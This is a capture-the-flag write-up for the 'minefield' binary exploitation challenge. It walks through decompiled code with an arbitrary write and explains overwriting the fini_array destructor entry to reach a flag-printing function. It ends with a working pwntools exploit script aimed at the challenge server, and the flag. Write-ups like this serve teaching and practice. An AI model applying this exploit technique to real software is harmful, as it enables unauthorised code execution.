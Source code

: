 # minefield

One of the easiest challenge from the pwn section. This was also a good challenge for newbies to learn about the how ELF works.

# Vulnerability

The binary had Canary and NX enabled, guess no more stack overflows D:

```r
❯ checksec minefield
[*] '/media/d4mianwayne/New Volume/Projects/PwnLand/CTFs/CyberApocalypse2021/minefield/minefield'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```

This binary eventually calls a function named `mission` which allow us to perform an arbitrary write.

```C
unsigned __int64 mission()
{
  _QWORD *v1; // [rsp+0h] [rbp-30h]
  char nptr[10]; // [rsp+14h] [rbp-1Ch] BYREF
  char v3[10]; // [rsp+1Eh] [rbp-12h] BYREF
  unsigned __int64 v4; // [rsp+28h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  printf("Insert type of mine: ");
  r(nptr);
  v1 = (_QWORD *)strtoull(nptr, 0LL, 0);
  printf("Insert location to plant: ");
  r(v3);
  puts("We need to get out of here as soon as possible. Run!");
  *v1 = strtoull(v3, 0LL, 0);
  return __readfsqword(0x28u) ^ v4;
}
```

We also had a function named `_` which peform `cat flag` for us.

```C
unsigned __int64 _()
{
  size_t v0; // rax
  unsigned __int64 v2; // [rsp+8h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  v0 = strlen(aMissionAccompl);
  write(1, aMissionAccompl, v0);
  system("cat flag*");
  return __readfsqword(0x28u) ^ v2;
}
```

# Exploitation

Well, the challenge objective was clear, since we had an arbitrary write, we have to perform a GOT overwrite such that once it's called it'll jump to the overwritten address and we had RELRO off, so it was obvious from straight point of view, but the problem was, once the arbitrary write is done, none of imported functions were being called, so that proposed a problem.

So, that became a problem quickly, well no, there exists a `__do_global_dtors_aux_fini_array_entry` which is called when the process exit, it contains a number of functions. These are called global destructors, so in the end, we just had to overwrite the `__do_global_dtors_aux_fini_array_entry` with the address `_` function which prints the flag:-

```py
from pwn import *

p = remote("138.68.168.137", 32479)
elf = ELF("minefield")


# overwrite __fini_array
p.sendlineafter("> ", "2")
pause()
p.sendlineafter(": ", str(6295672))
p.sendlineafter(": ", str(elf.symbols['_']))

p.interactive()
```

Flag: `CHTB{d3struct0r5_m1n3f13ld}`

Flag: 
